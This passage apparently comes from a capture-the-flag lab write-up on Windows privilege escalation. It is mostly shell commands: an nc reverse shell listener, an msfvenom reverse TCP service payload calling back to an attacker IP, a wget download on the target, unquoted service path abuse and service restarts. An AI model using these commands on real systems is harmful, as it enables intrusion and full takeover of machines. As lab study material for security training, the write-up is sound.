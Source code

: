 ```shell
#start reverse shell on attacker
nc -lvp 4445

#on target machine, stop and start service
sc stop windowsscheduler
sc start windowsscheduler

#we get shell access of target, flag in svcusr1 Desktop
```

* Unquoted Service Paths:

```shell
#for services which do not have properly quoted paths
sc qc "disk sorter enterprise"
#shows unquoted path
#C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe

icacls C:\MyPrograms
#BUILTIN\Users group has AD, WD privilege
#so we can modify subdirectory
```

```shell
#in attacker machine
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.48.136 LPORT=4446 -f exe-service -o rev-svc2.exe

python3 -m http.server

nc -lvp 4446
#now we can transfer payload using wget in PowerShell


#in target machine PowerShell
wget http://10.17.48.136:8000/rev-svc2.exe -O rev-svc2.exe
```

```shell
#move payload to unquoted path chosen
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

#give executable permissions
icacls C:\MyPrograms\Disk.exe /grant Everyone:F

sc stop "disk sorter enterprise"

sc start "disk sorter enterprise"
#this gives us shell access
#flag in Desktop
```

* Insecure Service Permissions:
